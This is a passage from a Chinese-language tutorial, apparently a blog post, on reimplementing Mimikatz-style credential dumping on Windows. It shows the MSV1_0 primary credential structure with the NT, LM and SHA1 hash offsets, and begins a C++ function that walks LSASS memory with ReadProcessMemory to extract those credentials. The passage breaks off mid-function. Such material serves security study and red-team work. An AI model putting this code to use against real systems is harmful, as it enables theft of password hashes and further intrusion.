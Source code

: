而 `MSV1_0_PRIMARY_CREDENTIALS::Credentials` 中就保存了加密后的用户凭据，这是一个 `LSA_UNICODE_STRING` 字符串，其成员 `Buffer` 指向缓存凭据的加密内存，该内存解密后的结构因系统版本而异，参考 Mimikatz 可知在 Windows 10 x64 1903 系统中的结构如下。

```c++
typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607 {
	LSA_UNICODE_STRING LogonDomainName;
	LSA_UNICODE_STRING UserName;
	PVOID pNtlmCredIsoInProc;
	BOOLEAN isIso;
	BOOLEAN isNtOwfPassword;
	BOOLEAN isLmOwfPassword;
	BOOLEAN isShaOwPassword;
	BOOLEAN isDPAPIProtected;
	BYTE align0;
	BYTE align1;
	BYTE align2;
	DWORD unkD; // 1/2
#pragma pack(push, 2)
	WORD isoSize;  // 0000
	BYTE DPAPIProtected[LM_NTLM_HASH_LENGTH];
	DWORD align3; // 00000000
#pragma pack(pop) 
	BYTE NtOwfPassword[LM_NTLM_HASH_LENGTH];
	BYTE LmOwfPassword[LM_NTLM_HASH_LENGTH];
	BYTE ShaOwPassword[SHA_DIGEST_LENGTH];
	/* buffer */
} MSV1_0_PRIMARY_CREDENTIAL_10_1607, * PMSV1_0_PRIMARY_CREDENTIAL_10_1607;
```

其中 `NtOwfPassword`、`LmOwfPassword` 和 `ShaOwPassword` 这三个关键的字节序列分别存储了用户的 NT Hash、LM Hash 和 SHA1 散列值，三者在该结构中的偏移量分别是 `0x4A`、`0x5A` 和 `0x6A`。

下面开始编写 `Msv1_0EnumerateCreds()` 函数，定义如下。

```c++
BOOL Msv1_0EnumerateCreds(PVOID pCredentials)
{
	BOOL status = FALSE;
	MSV1_0_CREDENTIALS credentials;
	MSV1_0_PRIMARY_CREDENTIALS primaryCredentials;
	MEMORY_ADDRESS lsassMemory = { pCredentials };

	while (lsassMemory.address)
	{
		if (ReadProcessMemory(cLsass.hProcess, lsassMemory.address, &credentials, sizeof(MSV1_0_CREDENTIALS), NULL))
		{
			while (lsassMemory.address)
			{
				lsassMemory.address = credentials.PrimaryCredentials;
				while (lsassMemory.address)
				{
					if (ReadProcessMemory(cLsass.hProcess, lsassMemory.address, &primaryCredentials, sizeof(MSV1_0_PRIMARY_CREDENTIALS), NULL))
					{
						if (GetUnicodeString(&primaryCredentials.Credentials, cLsass.hProcess))
						{
							if (GetUnicodeString((PUNICODE_STRING)&primaryCredentials.Primary, cLsass.hProcess))
							{
								//wprintf(L"\n\t [%08x] %Z", credentials.AuthenticationPackageId, &primaryCredentials.Primary);
								Msv1_0CredsOutput((PGENERIC_PRIMARY_CREDENTIAL)&primaryCredentials.Credentials);
								status = TRUE;
								LocalFree(primaryCredentials.Primary.Buffer);
```